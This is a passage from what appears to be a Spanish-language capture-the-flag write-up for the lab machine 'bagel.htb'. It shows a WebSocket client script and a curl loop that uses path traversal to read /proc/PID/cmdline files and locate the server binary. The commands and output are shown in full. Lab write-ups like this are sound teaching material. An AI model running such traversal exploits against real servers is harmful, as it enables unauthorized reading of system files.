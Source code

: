 ```python

if __name__ == '__main__':
  app.run(host='0.0.0.0', port=8000)
```

El endpoint `/orders` establece una conexión a través de WebSocket con la aplicación que está en el puerto 5000, luego envía un mensaje en formato JSON con la intención de leer un archivo `orders.txt`

Podemos intentar cargar el archivo `orders.txt` pero después de un rato, vemos que el servidor nos responde con la cadena `test`
```console
import websocket,json

ws = websocket.WebSocket()
ws.connect("ws://bagel.htb:5000/") # connect to order app
order = {"ReadOrder":"orders.txt"}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
print(json.loads(result)['ReadOrder'])
```

```console
python3 exploit.py
test
```

## Brute-forcing PID's cmdline
Podríamos intentar recuperar el `.dll` o el `.exe` del servidor WebSocket a través del Path Traversal e intentar descompilarlo para ver si se oculta información privilegiada pero por ahora no tengo ni idea de donde se encuentra el archivo `.dll` que queremos recuperar.

Como tenemos un LFI y el WebSocket está activo y según el código parece que se debe de ejecutar manualmente, de ahí el recordatorio de abrir el WS en forma de comentario que nos hemos encontrado podemos hacer una cosa.

En linux, en `/proc` se incluye un directorio por cada proceso que está en ejecución, los directorios son `/proc/PID` siendo PID el número del proceso. Dentro de este directorio existe un fichero que contiene información sobre el comando original que ejecutó el proceso llamado `cmdline`, por lo que quizás podemos recuperar el comando con el que se ejecutó el servidor WebSocket y si se ha utilizado rutas absolutas podríamos saber cual es el archivo que nos interesa para descompilarlo.

Con un bucle for y `grep` podemos iterar hasta un número elevado ya que los PID en linux suelen ser números altos y encontramos algo interesante.
```console
for i in {1..80000}; do curl -s http://bagel.htb:8000/\?page\=../../../../../../../../../proc/$i/cmdline --output - | grep -v "File not found" --binary-files=text && echo "  -> PID: $i"; done
/usr/lib/systemd/systemdrhgb--switched-root--system--deserialize35
  -> PID: 1
/usr/lib/systemd/systemd-journald
  -> PID: 760
/usr/lib/systemd/systemd-udevd
  -> PID: 774
/usr/lib/systemd/systemd-oomd
  -> PID: 852
/usr/lib/systemd/systemd-resolved
  -> PID: 854
/usr/lib/systemd/systemd-userdbd
  -> PID: 855
/sbin/auditd
  -> PID: 856
/sbin/auditd
  -> PID: 857
/usr/sbin/sedispatch
  -> PID: 858
```